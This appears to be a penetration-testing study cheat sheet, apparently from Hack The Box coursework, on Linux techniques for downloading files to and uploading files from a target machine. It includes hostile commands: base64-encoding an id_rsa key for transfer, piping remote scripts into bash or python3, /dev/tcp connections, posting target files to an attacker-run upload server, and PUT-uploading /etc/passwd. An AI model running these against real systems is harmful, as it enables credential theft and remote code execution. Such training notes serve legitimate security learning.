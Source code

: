 # Download Operations

## Base64 Encoding / Decoding

Check file MD5 hash and encode the contents using base64:
```shell-session
[/htb]$ md5sum <file name>

[/htb]$ cat id_rsa |base64 -w 0;echo
```

Decode the base64 string from the target machine and check that the MD5 hash matches:
```shell-session
[/htb]$ echo -n '<base64 string>' | base64 -d > <file name>

[/htb]$ md5sum <file name>
```

## Web Downloads with Wget and cURL

Download a file using Wget:
```shell-session
[/htb]$ wget <URL> -O <path to download>
```

Download a file using cURL:
```shell-session
[/htb]$ curl -o <path to download> <url>
```

## Fileless Attacks Using Linux

Load script into the memory:
```shell-session
[/htb]$ curl <Script URL> | bash // Method 1

[/htb]$ wget -qO- <Python script URL> | python3 // Method 2, Only for Python scripts
```

## Download with Bash (/dev/tcp)

Connect to the target web server:
```shell-session
[/htb]$ exec 3<>/dev/tcp/<ip address>/<port>
```

Make an HTTP GET request and print the response:
```shell-session
[/htb]$ echo -e "GET /<file name> HTTP/1.1\n\n">&3

[/htb]$ cat <&3
```

## SSH Downloads

Set-up and start the SSH server:
```shell-session
[/htb]$ sudo systemctl enable ssh

[/htb]$ sudo systemctl start ssh
```

Download files using SCP:
```shell-session
scp <username>@<ip address>:<file path> . 
```

You can create a temporary account to avoid using your primary credentials.

# Upload Operations

## Web Upload

Download and start uploadserver (extended module of HTTP.Server):
```shell-session
[/htb]$ sudo python3 -m pip install --user uploadserver // Download the upload server

[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server' // Generate a self signed certificate

[/htb]$ mkdir <direcotry> && cd <directory> // Make a new directory for the server so you don't host the certificate

[/htb]$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem // Start the server
```

Upload multiple files from the target machine:
```shell-session
[/htb]$ curl -X POST https://<ip address>/upload -F 'files=@<file 1 path>' -F 'files=@<file 2 path>' --insecure // --insecure because the trusted self signed certificate
```

## Alternative Web File Transfer Method

Creating a web server with Python3:
```shell-session
[/htb]$ python3 -m http.server
```

Creating a web server with Python2.7:
```shell-session
[/htb]$ python2.7 -m SimpleHTTPServer
```

Creating a web server with PHP:
```shell-session
[/htb]$ php -S 0.0.0.0:8000
```

Creating a web server with Ruby:
```shell-session
[/htb]$ ruby -run -ehttpd . -p8000
```

Downloading a file from the created server:
```shell-session
[/htb]$ wget <ip address>:8000/<file name>
```

Firewall might block the inbound traffic, we are not uploading the file to our machine with that method.

## SCP Upload

Can work when a company allows SSH outbound connections

Uploading a file using SCP:
```shell-session
[/htb]$ scp <file path> <username>@<ip address>:<target path>
```

# HTTP/S

## Nginx - Enabling PUT

Create a Directory to Handle Uploaded Files:
```shell-session
Wildland4958@htb[/htb]$ sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

Change the owner to www-data:
```shell-session
Wildland4958@htb[/htb]$ sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

Create Nginx configuration file by creating the file `/etc/nginx/sites-available/upload.conf` with the contents:
```shell-session
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

Symlink our Site to the sites-enabled Directory:
```shell-session
Wildland4958@htb[/htb]$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

Start Nginx:
```shell-session
Wildland4958@htb[/htb]$ sudo systemctl restart nginx.service
```

#### Verifying Errors

```shell-session
Wildland4958@htb[/htb]$ tail -2 `/var/log/nginx/error.log`

2020/11/17 16:11:56 [emerg] 5679#5679: bind() to 0.0.0.0:`80` failed (98: A`ddress already in use`)
2020/11/17 16:11:56 [emerg] 5679#5679: still could not bind()
```

```shell-session
Wildland4958@htb[/htb]$ ss -lnpt | grep `80`

LISTEN 0      100          0.0.0.0:80        0.0.0.0:*    users:(("python",pid=`2811`,fd=3),("python",pid=2070,fd=3),("python",pid=1968,fd=3),("python",pid=1856,fd=3))
```

```shell-session
Wildland4958@htb[/htb]$ ps -ef | grep `2811`

user65      2811    1856  0 16:05 ?        00:00:04 `python -m websockify 80 localhost:5901 -D`
root        6720    2226  0 16:14 pts/0    00:00:00 grep --color=auto 2811
```

Remove NginxDefault Configuration:
```shell-session
Wildland4958@htb[/htb]$ sudo rm /etc/nginx/sites-enabled/default
```

Uploading file using cURL:
```shell-session
Wildland4958@htb[/htb]$ curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```